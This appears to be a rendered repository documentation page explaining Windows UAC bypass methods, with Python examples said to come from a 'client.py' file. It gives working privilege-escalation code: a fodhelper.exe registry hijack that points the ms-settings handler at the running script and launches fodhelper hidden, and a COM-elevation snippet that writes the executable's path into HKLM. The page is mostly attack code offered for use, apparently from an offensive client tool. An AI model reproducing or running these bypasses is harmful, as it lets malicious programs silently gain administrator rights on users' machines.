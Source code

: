 ### **3. Bootstrap Methods Get Admin First**

- Step 1: UAC bypass to gain admin
- Step 2: NOW write to HKLM (because you're admin)
- Not "writing to HKLM without admin" - it's "get admin, then write"

---

## 🔍 Code Examples from client.py

### **Example 1: Fodhelper (HKCU Only)**

```python
def bypass_uac_fodhelper_protocol():
    """UAC bypass using fodhelper.exe and ms-settings protocol (UACME Method 33)."""
    
    current_exe = os.path.abspath(__file__)
    key_path = r"Software\Classes\ms-settings\Shell\Open\command"
    
    # ✅ Writes to HKCU (no admin needed)
    key = winreg.CreateKey(winreg.HKEY_CURRENT_USER, key_path)
    winreg.SetValueEx(key, "", 0, winreg.REG_SZ, current_exe)
    winreg.SetValueEx(key, "DelegateExecute", 0, winreg.REG_SZ, "")
    winreg.CloseKey(key)
    
    # Execute fodhelper to trigger bypass
    fodhelper_path = os.path.join(os.environ.get('SystemRoot', 'C:\\Windows'), 'System32', 'fodhelper.exe')
    subprocess.Popen([fodhelper_path], creationflags=subprocess.CREATE_NO_WINDOW)
```

**Result:**
- Writes: `HKCU\Software\Classes\ms-settings\Shell\Open\command` ✅
- Does NOT write: `HKLM` ❌
- Fodhelper.exe runs with admin and executes the hijacked command ✅

---

### **Example 2: ICMLuaUtil (HKLM via COM)**

```python
def bypass_uac_dccw_com():
    """UAC bypass using IColorDataProxy COM interface (UACME Method 43)."""
    
    # Create elevated COM object (CLSID for ICMLuaUtil)
    lua_util = win32com.client.Dispatch("Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}")
    
    # 🔴 Writes to HKLM via privileged COM interface
    reg_path = r"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ICM\Calibration"
    lua_util.SetRegistryStringValue(2147483650, reg_path, "DisplayCalibrator", current_exe)
```

